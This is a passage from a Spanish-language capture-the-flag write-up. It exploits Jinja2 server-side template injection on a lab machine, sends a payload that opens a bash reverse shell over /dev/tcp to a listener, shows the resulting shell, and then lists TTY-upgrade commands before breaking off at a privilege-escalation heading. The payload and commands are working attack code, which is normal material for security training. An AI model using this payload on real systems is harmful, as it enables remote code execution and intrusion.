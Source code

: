 URL = [Info Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)

Vamos a probar a meter algo basico:

```
{{7*7}}
```

Esto deberia de mostrar `49`, si lo enviamos vemos que ciertamente nos muestra el numero `49`, por lo que haremos lo siguiente creandonos una `reverse shell`.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"').read() }}
```

Pero antes de enviar esto tendremos que estar a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si podremos enviar ese comando, y si nos volvemos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 57328
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
pinguinazo@4dd090c078de:~$ whoami
whoami
pinguinazo
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges
